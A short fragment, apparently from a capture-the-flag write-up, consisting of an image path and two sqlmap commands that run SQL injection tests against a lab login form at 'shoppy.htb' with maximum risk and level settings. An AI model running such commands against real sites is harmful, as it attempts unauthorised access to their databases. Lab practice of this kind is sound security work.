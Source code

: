 sqlmap -r REQUEST_FILE
sqlmap -u "http://shoppy.htb/login" --data "username=admin&password=admin" --risk 3 --level 5 -f --banner --ignore-code 401 --dbms='SQL_TYPE'